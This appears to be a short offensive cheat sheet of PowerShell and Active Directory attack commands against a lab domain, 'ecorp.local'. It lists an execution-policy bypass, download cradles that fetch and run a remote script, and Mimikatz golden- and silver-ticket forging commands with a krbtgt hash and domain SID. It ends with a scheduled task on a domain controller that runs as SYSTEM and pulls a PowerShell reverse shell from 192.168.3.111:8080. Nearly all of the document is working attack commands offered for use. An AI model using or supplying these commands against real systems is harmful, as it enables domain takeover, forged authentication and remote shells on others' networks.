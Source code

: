 # Commands

# bypass
Start PowerShell from cmd.exe:

powershell.exe -ep bypass

OR If already running-

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted

$Env:PSExecutionPolicyPreference = 'Bypass'



# cradle
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

# download
(new-object System.Net.Webclient).DownloadFile("https://raw.githubusercontent.com/conma293/mvp/main/1.ps1", "C:\Windows\Temp\1.ps1")

# Tickets

NTLM == RC4

#Golden

Invoke-Mimikatz -Command '"kerberos::golden 
/User:DonaldDuck /domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /krbtgt:731a061e57100b658bc59d71f5176e93
id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

#Silver
SPNs - https://adsecurity.org/?page_id=183

Invoke-Mimikatz -Command '"kerberos::golden 
/domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /target:dc01.ecorp.local /service:HOST 
/rc4:731a061e57100b658bc59d71f5176e93 /user:Administrator /ptt"

schtasks /create /S dc01.ecorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Updater123" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.111:8080/Invoke-PowerShellTcp.ps1'')'"

schtasks /Run /S dc01.ecorp.moneycorp.local /TN "Updater123"
